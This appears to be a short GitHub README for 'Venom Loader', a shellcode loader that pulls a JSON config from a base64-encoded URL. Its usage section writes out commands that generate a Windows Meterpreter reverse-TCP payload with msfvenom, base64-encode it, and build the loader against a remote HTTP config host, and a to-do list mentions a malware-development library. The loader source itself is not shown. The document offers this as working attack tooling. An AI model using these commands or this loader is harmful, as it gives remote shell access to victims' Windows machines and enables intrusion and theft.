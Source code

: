 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
chmod +x builder.sh
./builder.sh <http://IP/config> main.go
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
Keep in mind that the config is a json file that should be located in the same dir as the http server.
## To-Do

- Make a builder that automates creation of msf payload and base64 encoding it.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
